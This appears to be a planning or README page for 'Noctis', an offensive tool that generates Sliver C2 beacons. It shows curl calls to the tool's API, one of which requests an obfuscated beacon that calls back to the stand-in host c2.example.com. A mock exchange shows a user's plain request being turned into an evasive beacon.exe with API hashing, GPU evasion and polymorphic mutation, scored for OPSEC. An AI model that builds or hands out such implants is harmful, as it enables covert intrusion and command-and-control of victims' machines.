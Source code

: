 ### Noctis API
```bash
# Test technique query
curl http://localhost:8888/api/techniques

# Generate C2 beacon (future)
curl -X POST http://localhost:8888/api/c2/sliver/generate \
  -H "Content-Type: application/json" \
  -d '{
    "protocol": "https",
    "listener_host": "c2.example.com",
    "techniques": ["NOCTIS-T124", "NOCTIS-T095"],
    "obfuscate": true
  }'
```

---

## Expected Output

By the end of Phase 4, you should be able to:

```
User: "Generate a Sliver HTTPS beacon with API hashing and GPU evasion"

Noctis:
  → Connects to Sliver server
  → Generates beacon shellcode
  → Wraps with API hashing (NOCTIS-T124)
  → Wraps with GPU evasion (NOCTIS-T106)
  → Applies polymorphic mutations
  → Compiles loader
  → Returns beacon.exe

Output:
  - sliver_beacon.exe (156KB)
  - OPSEC Score: 9.2/10
  - Features: HTTPS C2, API hashing, GPU evasion
  - Unique: 58.3% from previous builds
```

---

## Known Issues / Considerations

### From Windows Development:
- All compilation currently uses MSBuild (Windows-specific)
- May need MinGW cross-compilation on Linux for Windows targets
- Or keep Windows machine for final compilation

### For C2 Integration:
- Sliver server needs to be running for beacon generation
- Network access required for C2 callbacks during testing
- Use VMs/containers for safe testing
